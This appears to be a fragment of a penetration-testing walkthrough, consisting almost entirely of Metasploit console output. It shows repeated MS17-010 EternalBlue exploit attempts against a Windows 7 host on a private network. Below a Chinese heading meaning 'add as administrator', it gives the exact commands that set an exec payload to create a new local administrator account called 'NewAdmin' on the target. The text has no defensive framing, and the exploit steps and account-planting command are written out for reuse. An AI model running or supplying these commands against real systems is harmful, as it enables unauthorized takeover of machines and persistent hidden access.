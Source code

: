 [-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 22 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.



####  添加为管理员
.
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 2
[*] Using configured payload windows/x64/exec         【】
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net localgroup "administrators" NewAdmin /add
cmd => net localgroup administrators NewAdmin /add
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
